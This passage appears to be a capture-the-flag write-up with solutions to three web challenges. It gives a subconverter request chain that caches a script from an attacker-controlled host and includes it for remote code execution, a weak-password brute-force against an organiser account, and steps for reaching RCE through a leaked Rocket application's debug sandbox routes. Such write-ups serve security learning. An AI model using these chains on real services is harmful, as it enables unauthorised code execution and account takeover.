 5. Since fileGet can only read local files, here we also need to land a local file using subconverter's caching feature. A simple test or reading of the source code shows that subconverter's caching mechanism is to create a cache in the . /cache directory to create a md5 file with the name url to be used as a cache. For example, if my url is `http://vps/1.js`, then the cache file is `. /cache/63ff1abb5db4fd2df0498c46a44565c8`. So it can be rce by script:include local js.

```
/sub?target=clash&url=http://vps/1.js
/sub?target=clash&url=script:cache/63ff1abb5db4fd2df0498c46a44565c8,1&token=xxx
/qx-script?url=ZmxhYWFhYWFn
```

### nanoScore

First register an account, the URL can be found via dirsearch: /register.html. After registering and logging in, you will be automatically redirected to \flag and prompted that you need ADMIN privileges to get the flag.

The new subpage \users can be found by dirsearch in the login state, which has all registered users' usernames and creation dates.

Notice the exception of the topic First Blood being cancelled, the ID of the First Blood submitter forging the ID of the sponsor, and the title Hint that says "First Blood is the sponsor, but it is very helpful to solve the problem", all There are indications that this First Blood is also part of the title.

If First Blood also got the flag by registering and logging in, then TA's account must have been created before First Blood submitted the flag, and through /users we can find that only the first five accounts were registered earlier than First Blood's submission time, so one of these five accounts must have ADMIN privileges.

Noticing that the fifth user is named Ha1c9on, which is one of the common IDs used by the organizer, seems even more strange. Weak password bursting, the password is 123456, then log in his account can automatically get the flag, copy the job successfully!

This question was inspired by the observation of the Web contestants' habits: when they registered their test accounts, they used to enter weak passwords that were convenient for them, but once they finished the challenge, others could steal the victory through the TA's account. In fact, in this CTF, in addition to the questioner's account being successfully blasted, there were many other players' accounts being successfully blasted by weak passwords.

### 166lover

1. Figure out that is a Rocket application and has Cargo.tml leaked. 

2. Download it and find the application name "static-files" and download the binary. 

3. Run it with debug mode or Write a example application by yourself to find out the route has been registered.

4. Figure out both of the debug route have done, one is js sandbox, the another one is python "sandbox". Just think them as a black box and test them.

5. Run python code to RCE. 

6. ps -ef, You will find /flag has been deleted when the instance booted. 
